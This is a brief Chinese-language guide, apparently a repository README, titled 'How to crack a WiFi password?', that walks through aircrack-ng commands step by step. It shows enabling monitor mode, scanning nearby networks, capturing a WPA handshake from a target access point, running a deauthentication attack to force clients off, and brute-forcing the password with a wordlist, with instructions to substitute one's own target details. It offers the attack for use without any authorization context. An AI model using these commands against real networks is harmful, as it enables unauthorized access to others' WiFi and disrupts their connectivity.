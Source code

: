 # 如何破解wifi密码？

## aircrack-ng 命令的详细解释

sudo -i  ：管理员权限

ifconfig ：查看当前的网卡信息

airmon-ng：检查网卡是否支持监听功能的

airmon-ng start wlan0 ：激活无线网卡的监听模式

airodump-ng wlan0 ：扫描当前周边环境的WiFi信号

下面里的部分信息根据自己的情况进行替换

抓包命令：airodump-ng -c 11 –bssid 60:32:B1:56:3F:B2 -w /home/lingdu/桌面/handshake wlan0

ACK 死亡攻击：aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c F0:72:EA:E8:72:21 wlan0

暴力破解命令：
aircrack-ng -w /home/lingdu/桌面/password.txt -b 60:32:B1:56:3F:B2 /home/lingdu/桌面/handshake-0*.cap
